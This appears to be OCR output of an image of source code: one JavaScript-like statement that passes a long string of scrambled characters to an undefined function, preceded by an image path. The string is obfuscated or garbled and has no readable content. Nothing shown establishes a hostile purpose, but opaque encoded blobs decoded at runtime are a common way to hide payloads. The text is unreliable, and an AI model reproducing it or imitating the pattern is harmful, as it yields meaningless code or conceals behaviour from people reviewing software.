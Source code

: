 s=h(e,"}RIy!/X{&o#AlwecRleRwxlZARA&ok&K{;/e!l/w!oyly!yRl&eAcReXwA{&o#owol&#{R/#/w!lyRI{RXeRe/lzAC#G&e{A&o&/XwX#!oc&RlI{Rccwc#o&#lAw#eowoX&AXw!RyoIgRWK1eee!bRcIlwl#on#w&#XR/w!ZysILHeNARoJwcRwl&&oc#o#/&wy&X=!RywISRSn8eeeAc!eRllAwAw##oA!//pXw!#IRR&,Pc5erlelww&Al#o#l&w&A/R!eyUI1RacecAcw!ARcIAcAA{/&Xe&R{A/A/iIRIXD1c=eFlel&w#AwAA#A!&XoI&Xl/{c&ylRoR#ccewel&&ooAR#/{RXc/t!uy-RejwIX.wW#eccR&&ooAA#A&o&w{!XlyRI#RD+McTwewIwowRl!####&w{o{y!Ry&I2R;+Leewoc#eAlwlX#o#!{RXe/F!HyiReR&I#R{BIewwAwl{&oXow#1&w{A!RycI(RQ?beewlc#eRwelRAXoc!&/w{/X&/R!#Iw9RcoeOw7l.#eo#A{#Xoyy&/PXw!#IRRAVtc?eSlel/wwlyAw##owy&/EXw!#IRRw.mcOeBlelAwXlRA&ow{HoR{&/wR#B&c&iR?IeswYlE#eo#A!#w&wy&/!X{!A!yUIw&c#7Rcewow!lAoRoy{vX,/nyeyA!wy#IeRR_eewo&wll #w/&{y&R{!X!!w!#RR<#c e1wuAe#wwm#woAow&lXwR&RAIRRc+McMe(lel#lol#AR#l#Ry&!e/o!A!ly{I#IReRw&lUA6#7&eoL&l&yXwX#/lBoRRvccUe_w9AeA&l{A&/&oR&lI&Xl/#yoIlIRRXccwRloA6#-oG{e{A&lXoX# &I%ywR#cR4{w7lhA.oe&##!o{oFI&ye/#!wyRIlRAA&we##&&&m&e#woX{A{RX{/Xyoe&IXR{A&w&wAo{#/A{o#oR&!XwIRyRy!RM;9c.wew#wwwAll#o#wo#{o{XXlt&Il!RRAR{={cXo&o##Ro#&S{WX_!eyo/l!0IwI#l&eNcww#AR#lo:&_{*/e!eX!!o!/IwwcRAA&wBewl##Roe&C{iX.!e!A/l!#IwRwRlRI#&lclol#X&X#{RXl/_!9yGReOeRoR#(l#&lAlAl#AR#&olXR/X!dy_Iv<eRReoe#wul/AR#Ao:&5{q/e/!XA_&yIIwRwl&e7cww#ARARod&5{O/eI&!&/#!{yIRw:Arl#&l!lowI#o##ow&A/R!XyxI_RN{yX!/IyoIeR{#Ro&&4{8X8!e!eRlI&e&x<Rwc#wRl/A_#7o7{e{R&X{RXlyRIoRv*actwelAwow!l!##oo&A&y/R!wyYI(RpceeAq{cXwewRAc&e#{o!{lXwX#yRy#R(5+c.wewAe&lwAw#l/&{E&wX#R&!Tc&cZ_#_wcAc{e/lwlX#loo&l&{yR!Ry#I=RL%teewecRw#lwl#X&&Bow{#/RX&y3IJR*cec&n#c{eIlwAAAl/&Xo&w{lX{P&Iecww&wnwecweXlAlRA{#X&oy&{XX{V&I&IAe{c/.{e#eRw!Aw{R&R{eX,/D!%IeRwyAI&l&ewcXeRweAwA##A&o&!/R!Ay5IJRtceec%{c{e/l#AoX&&Cow{#/R/&yFIYR_ceeoxXcRe/lw{&&A##o{&A{AX{/eywy#w&elcweewwwXlA#w&R{lX9/6!KIeIl!RI&.wA&c{e#&&olARow{R&!/h!JyWReIhw&cwUXcReelwl#AAooo!y&y4ye/w!XIAIRR{uXeoo&wXl{X&&&&A!{//X{!#!Ry!RwwReRclldA.#Z&e&=&o&eXwR&!oc&yARAR#?Rc&el&&lAAwoc&c{w{AXl/R!{yXc{l&eIc{eRwX{&Al#f&wy&!lXR/AyAy{I#6lAowRl#Ag#(oE{e{#oRX#X{/cc&R-Iw9#eRw&lrA8#v&eoI&oX#XlX{y{/>RRRccYe3wuAeA#lRAeooo!&AI&IkIe!wyXRARR3{cXwo&&lXA{/&{&{Ay{!//{y#yRI!.wlRwRlwA%#Jo,{eXoy&!lXw/A!l!Rw&cl0#cRe&ARAoo:&9{:/e!oXX/R!/Iww&ee,ReceQwlAwA##A!&XA{RX//w!!IoIlR{Q#wReIA-#QoU{e{{&&{lXR//!R!IRwl&RRc{eww#{&#cooo/{wI&/e/{!#e&R#qw>lclwww#{&&e&&{AXR{X!sy3IbOep/Rw3!cleRw&l!#w/&oA{A{#XR/&!lyAw&>eh{c#o&A&oA{{&/o{{#{RX!!wc&IoRl:lcwelooARARon&%{*/e!oXX/R!/Iww&c!cocAel&&#AAloooX{l/R!wyZI,Ricec!eAcXwlwRoelRow!&Xs{w/#yRyyR)qxc9wewll&AAoIX&&Aol&#Xw/w/lc&RAI{6AcAewe#AR#co>&_{s/e/cX,/{ccyAw&Rld_ewo&AAl&lR{{{RXA/1!WyjReN#I#R{G{cylklole#w#X{RXe/ !ty0ReRlI{Rccwc#o&A{AeX&&%&w&!{!!RyXIBR(-*eed&c#eRwXlloR&X{ XG/qyeIw!eIoRljweRw{lfA0#k&e&#oR&eXoX!/AIRR&83cfeqlelAA&ARX&{w{AX&/R!oy1I%RncedIcwc!wl&&#4Awo#{R{{/K!<yuRe*oIXRR(/ewo&AAllA##Roy{wI&!A/R!/ywI!NoClc{e#AR#eoi&S{C/e/#/w!o!!y/w&c#coc/e&loAc#w&RoIX^/i!OIeIAy&Rw8wcl#&lswwA#X&XTXe&w{X/A/R!{yXRol&kXc{o&A&AA{{&/o{{#{RX!!w^RRRI!c<e9wtAe#elwAl#wo#{wI&Xw/&ylIoIlBw0A#&ecwRl!A!/&&#{wI&X!/R!AylRw_lA&c+www#Aw{X&R&lXa/u!mIe!#I#yEiouAcAwwwllR#l{I/{!{!?IwRARRVMecw#lAAo#l#R&w{AX#{RX&/9!>yVReRRI/R&A&w ewl##Rol&Y{gX.!e!X/{!wyAIR,cHR#&lFwwA#oR&l{pX2/Hyey//Re&<&;wZl#&l#w{AAAy&R{oX^/2!YIeIAIwIlRltRcXwcwA#RoA&-{_X>!e!A!o!eIwcAR{aXeeeRlc#Roo&7{YXO!e!{/#!Ry{IXc!hRe#lRAl#_oQ&TXe/o{wXA/A!RIww&cceRw#AwARlIo0&U{^/e/;X{//!{e&n^kocAcyo&ogoeAw#X&A&R{{XX!oc&yXI{l&e&eA#{A/l{###Ro!{wyR!Ry/ISRik7eecRwblw###Ro&&D{_XM!eyl!oc&RgI{R{clwRl&AQ#+oQ{e{#&wXoR&/q!wI#hROle=wgl0#e#/Aw##&l{w{#/w/#!Ae&xecAA&wAe*lwl#A##R&e&AI&yl/wywy!IAcReww0l?AZoeoA#wo/&R{l!A!A!#yRI&RliAwRwoAq#9op{eXo&X{RX/!wc&RAI!Oo(Ac.eRwXAcX&&AoR&/{wX!!o!ly{I#cReewJl-APoe#{o_&R/A/o{IywRcRARRR!wAc{lRlA#=o:&SXe/w&_/w!A!wylRoR#A&wAwAw#lRA&#l!&/c&RX/O&I!IwRoVczwewlRAX#_ok&(Xe/e{RXA!A!,RRRec0eswMAe#ww #woAow&lXoX#<&BbmeIwRXcAcRe{wXAoX&&&&A!{//X{!#!Ry!RwwReReclzAg#*&eoI&w&&{P{R/#c&c1ceRw:XeAeRw{lX#o/&oX&{I&!&!Aj{R/I{n#kRc!wwoR#Roo&>{aX_!eye/#ywIww&c>*we#lRA/#nom&LXeXXXoX/!wIRI&iOcYeZleAcw#AoAA#A!&/A{wXl/l!RyXRcl&eAcRe/wwl!#o#lo{&#/R!cyPIjROcec&={c&o&ARllX&&lo#{oXlXR/XycRRR#cjeqw%AeA/Ao#l/&XA&R{l{RT&RAyPRoR&*lewe#&&&#X&&A&A&#{RX&/lIRIRktcEeulelwwXlRAeowo#&AXoX!T&IAIAI#RR:&cllRly#QoF&+XeX!Xw/c!w!XIlIAl&e#ewAIAcl#AR#lol{w{X!Ry!IhRg8)X!/o!>I/ARAwo:&2{7/e{#/#X<yoyAIAswQlcRwl#I&{{{Xo/&/NycIcRetocoelwel#lR#oo#&eoR&#{>X?/%yeycywyAIl1#v{cweXll#Roo&V{^X%!e!A/{!wy&w&cQ.we#lRl!#Vo1&6XeXI{wXI/w!lyAIwl&eAcCwwwXAoAX#R&c{o{XXAyRyIRWB.cEwelAwow#{&o#oo&A{wI&!A/R!/y!RoRl8{c#lRl!#JoN&pXe/#Xw/wv&IAycRoR#m/#&lAwRl/Aw#!&o&l{{X#yRI#RmG*cpwewAcRwXlRl2/&{*&wX#!R/XIrR6r3eeweA&e#wllwARX&ow&AI&Xg/wy#e&eVeevwcXwAwRl{AXoo!&&X{{R&y&yAc{E/R{c#cRe!lw&RoR&/{JX_/=ye!cyoy/RwcReow;l(AzoeoA{A{&y&yAI&R&RmRR(&c%egwJAe#wwn#woAow&lXw!R!;I=RsqWeewec#ewwRllAA/&{c{o{#X#/R!{y#IAcReXwClvAvoe&l#{o{&#{A!R/IIHR?+Leee!cweXlow^X&&Low{#I&I^Ie!wyXRARRH{cXwo&&lXA{/&{&{Ay{!//{y#yRI!=wlRwRl#A3#no_{eXwosXw/A/w!lIww&w#eRwolTA-#v&e{#&w{lI&!c!o!#yANRcce_wnl2#eooAX#Ro/{wI&!e!o!XIcIw